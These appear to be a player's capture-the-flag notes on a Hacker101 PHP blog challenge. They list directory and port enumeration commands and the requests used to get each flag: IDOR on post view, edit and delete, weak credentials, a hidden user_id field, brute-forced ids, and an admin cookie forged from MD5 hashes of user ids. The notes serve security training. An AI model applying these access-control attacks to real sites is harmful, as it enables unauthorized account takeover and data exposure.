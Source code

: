 target: https://6e17828e65720c02ea0fd05b94db0583.ctf.hacker101.com/

#### ENUMERATION
####Directory
ffuf -w /usr/share/wordlists/dirb/common.txt -u https://6e17828e65720c02ea0fd05b94db0583.ctf.hacker101.com/FUZZ -p 1
###Result
.hta		Forbidden
.htaccess	Forbidden
.htpasswd	Forbidden
index.php	Home page (/)
pages		Index of /pages
	account.php
	create.php
	delete.php
	edit.php
	home.php	-> some text
	profile.php	
	sign_in.php	-> sign in form (username:password)
	sign_out.php	-> redirect to /index.php, but instead /pages/index.php
	sign_up.php	-> sign up form 
		<form method="post" action="index.php?page=sign_up.php">
		<script>
      function validate() {
        var username = document.getElementById('username');
        var submit = document.getElementById('submit');

        if(/^[a-z]+$/.test(username.value)) {
          submit.disabled = false;
        } else {
          submit.disabled = true;
        }
      }
    </script>
    <input type="text" id="username" placeholder="Username" onkeyup="validate()" name="username" />
	view.php
	###Result
	The empty pages have .php file founded have size but empty when opened.	
php.ini		not important text
server-status	Forbidden


####Port
nmap -A -F -T1 https://6e17828e65720c02ea0fd05b94db0583.ctf.hacker101.com/ -v
###Result
None, because target already on a subdomain

####Surfing the Web
Wappalyzer	-> PHP
Source code	-> /, /index.php?page=sign_up.php, /index.php?page=sign_in.php -> None
Test account	-> test:test
	cookie	-> id:a87ff679a2f3e71d9181a67b7542122c
	--after logged in, create.php, edit.php, delete.php accessable
	create.php -> title&post form (required), private checklist, <input type="hidden" name="user_id" value="4" />, 
	account.php	-> change credentials
	index.php	-> 2 early posted created by user & admin
	
	using {POST /index.php?page=create.php} with {title=testTitle&body=testPost&user_id=0} using user_id, IDOR can be done and found 1=admin 2=user
	using {GET /index.php?page=profile.php&id=b} using id, IDOR can be done and found b=admin c=user




#FLAG1
GET /index.php?page=view.php&id=2 -> IDOR to see other accound post
#FLAG2
POST /index.php?page=edit.php&id=2 -> IDOR to make the private post into public
#FLAG3
sign in using user:password -> Weak credentials, able to change account username&password afterward
#FLAG4  v
<input type="hidden" name="user_id" value="2" /> -> hidden/commented input that are accessable using inspect element
#FLAG5
GET /index.php?page=view.php&id=945 -> bruteforcing id using burpsuite
#FLAG6
GET /index.php?page=delete.php&id=c9f0f895fb98ab9159f51fd0297e236d -> another weak
#FLAG7
Logged in into admin account using cookie -> reversing the cookie from user account (md5) which translate to 2, then reversing 1 to get cookie for admin account

c81e728d9d4c2f636f067f89cc14862c = 2
c4ca4238a0b923820dcc509a6f75849b = 1